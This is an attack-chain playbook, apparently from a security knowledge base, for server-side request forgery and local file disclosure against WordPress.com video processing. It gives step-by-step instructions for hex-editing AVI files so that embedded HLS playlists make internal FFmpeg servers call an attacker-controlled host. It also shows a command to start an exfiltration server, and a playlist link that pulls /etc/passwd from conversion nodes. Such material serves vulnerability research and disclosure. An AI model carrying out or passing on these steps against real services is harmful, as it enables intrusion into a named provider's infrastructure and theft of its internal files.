

# SSRF and Local File Disclosure via Malicious AVI Upload in WordPress.com Video Processing

Multi-stage attack chain demonstrating SSRF and local file disclosure by crafting AVI files with malicious HLS playlists embedded in GAB2 subtitle chunks, uploading them to WordPress.com's media/videos endpoint, and triggering FFmpeg processing on internal servers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Hex-Editor]]
- [[tools/file_reading_server.py]]
- [[tools/gen_avi.py]]

### Target Environment

- WordPress.com with paid account
- Access to /media/videos/ endpoint
- Internal Automattic servers running FFmpeg (Lavf/56.25.101)
- Ports: 8080 (for exploit server)

### Initial Access Requirements

- Paid WordPress.com account for video upload
- VPS with external IP for attacker-controlled server
- Network access to upload files to WordPress.com

## Detailed Attack Procedures

### Step 1: Craft Malicious AVI for SSRF
procedure: [[procedures/Craft-Malicious-AVI-for-SSRF]]

**Objective**: Modify an AVI file to embed an external HTTP link in the HLS playlist within GAB2 subtitle chunks to trigger SSRF during FFmpeg processing.

**Instructions**: Use [[tools/Hex-Editor]] to edit the base AVI file (e.g., http_q.avi). Locate the existing HTTP link (e.g., http://45.55.40.92/ssrf_test) and replace it with a URL pointing to your controlled server, such as http://your-server.com/test_ssrf, while preserving the binary layout.

**Expected Output**: Modified AVI file ready for upload.

**Success Indicators**:
- AVI file opens without corruption
- Embedded URL is correctly replaced in hex view

### Step 2: Upload and Trigger Video Processing
procedure: [[procedures/Upload-and-Trigger-Video-Processing]]

**Objective**: Upload the crafted AVI to WordPress.com and initiate FFmpeg processing to trigger the SSRF request from internal servers.

**Instructions**: Navigate to https://wordpress.com/media/videos/your-blog, upload the modified AVI, select it, and click 'Edit' to start processing.

**Expected Output**: Video processing initiates, and SSRF request arrives at your server.

**Success Indicators**:
- Upload succeeds
- Internal server (e.g., 192.0.87.12) sends GET request to your URL with User-Agent 'Lavf/56.25.101'

### Step 3: Set Up Exploit Server for File Disclosure
procedure: [[procedures/Set-Up-Exploit-Server-for-File-Disclosure]]

**Objective**: Deploy a server to handle SSRF requests and process HLS playlists for reconstructing and exfiltrating local files.

**Instructions**: On your VPS, execute [[commands/run-file-reading-server]] to start the server:

```bash
python3 file_reading_server.py --external-addr your-external-ip --port 8080
```

**Expected Output**: Server listens on port 8080; debug output shows incoming requests.

**Success Indicators**:
- Server starts without errors
- Ready to receive and process HLS segment requests

### Step 4: Execute Local File Disclosure via AVI
procedure: [[procedures/Execute-Local-File-Disclosure-via-AVI]]

**Objective**: Modify AVI for file:// URI, upload, and retrieve sensitive local files like /etc/passwd from video conversion nodes.

**Instructions**: Use [[tools/Hex-Editor]] or [[tools/gen_avi.py]] to set the HLS link to http://your-external-ip:8080/initial.m3u?filename=/etc/passwd. Upload and edit the video as in Step 2. The server will fetch and concatenate segments, including the local file.

**Expected Output**: Retrieved file saved as <random_string>_etc_passwd in the server's directory.

**Success Indicators**:
- SSRF requests include file:// fetches
- Local file contents (e.g., /etc/passwd) exfiltrated successfully

## Attack Chain Summary

### Key Achievements

1. Triggered SSRF from internal Automattic servers to external attacker server
2. Disclosed local files on video conversion nodes (/etc/passwd, /etc/issue, /etc/hostname)
3. Demonstrated arbitrary HTTP request capability via HLS playlists in AVI GAB2 chunks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery

---
*Last updated: 2023-10-01T00:00:00Z*
